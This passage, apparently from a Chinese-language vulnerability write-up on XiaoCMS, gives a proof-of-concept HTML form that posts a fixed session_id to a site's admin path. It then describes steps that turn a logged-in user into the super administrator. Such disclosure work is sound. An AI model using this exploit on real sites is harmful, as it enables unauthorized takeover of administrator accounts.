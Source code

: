 也可以构造测试POC：
```
<html>
    <body>
    <form action="http://quan.xiaocms.net/admin/" method="post">
    <input type="hidden" name="session_id" value="57049dc90ccd7226302dc8efbb8f2ce0">
    <input type="submit" >
    </form>
</body>
</html>
```
存为html文件，然后用Firefox打开，点击提交查询。

此时打开Google浏览器，可以看到quan管理员的首页状态
![15.png](assets/图片15.png)

因为quan是管理员用户，所以刷新一下，直接变成超级管理员admin
如果是普通会员用户访问http://quan.xiaocms.net/admin/?xiaocms即可